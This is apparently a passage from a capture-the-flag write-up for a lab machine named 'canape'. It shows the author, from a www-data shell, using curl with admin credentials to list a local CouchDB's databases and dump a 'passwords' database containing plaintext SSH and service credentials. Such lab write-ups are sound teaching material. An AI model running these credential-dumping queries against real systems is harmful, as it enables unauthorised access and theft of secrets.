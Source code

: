 I went back to google and got a few interesting URLs to check:

```console
www-data@canape:/tmp$ curl -X GET http://root3u:password@localhost:5984/simpsons/_all_docs
<-X GET http://root3u:password@localhost:5984/simpsons/_all_docs             
{"total_rows":7,"offset":0,"rows":[
{"id":"f0042ac3dc4951b51f056467a1000dd9","key":"f0042ac3dc4951b51f056467a1000dd9","value":{"rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329"}},
{"id":"f53679a526a868d44172c83a61000d86","key":"f53679a526a868d44172c83a61000d86","value":{"rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e"}},
{"id":"f53679a526a868d44172c83a6100183d","key":"f53679a526a868d44172c83a6100183d","value":{"rev":"1-e522ebc6aca87013a89dd4b37b762bd3"}},
{"id":"f53679a526a868d44172c83a61002980","key":"f53679a526a868d44172c83a61002980","value":{"rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc"}},
{"id":"f53679a526a868d44172c83a61003068","key":"f53679a526a868d44172c83a61003068","value":{"rev":"1-3d2f7da6bd52442e4598f25cc2e84540"}},
{"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"}},
{"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"}}
]}
```

I thought it was something useful, but it turned out they were quotes... So I decided to check on all the databases present:

```console
www-data@canape:/tmp$ curl -X GET http://root3u:password@localhost:5984/_all_dbs          
<-X GET http://root3u:password@localhost:5984/_all_dbs                       
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]
```

This is it! A database called ``passwords``!

```console
www-data@canape:/tmp$ curl -X GET http://root3u:password@localhost:5984/passwords/_all_docs
<-X GET http://root3u:password@localhost:5984/passwords/_all_docs            
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
www-data@canape:/tmp$ curl -X GET http://root3u:password@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
<ord@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438004738               
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
www-data@canape:/tmp$ curl -X GET http://root3u:password@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
<ord@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d               
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
www-data@canape:/tmp$ curl -X GET http://root3u:password@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
<ord@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f               
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
www-data@canape:/tmp$ curl -X GET http://root3u:password@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
<ord@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4               
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
```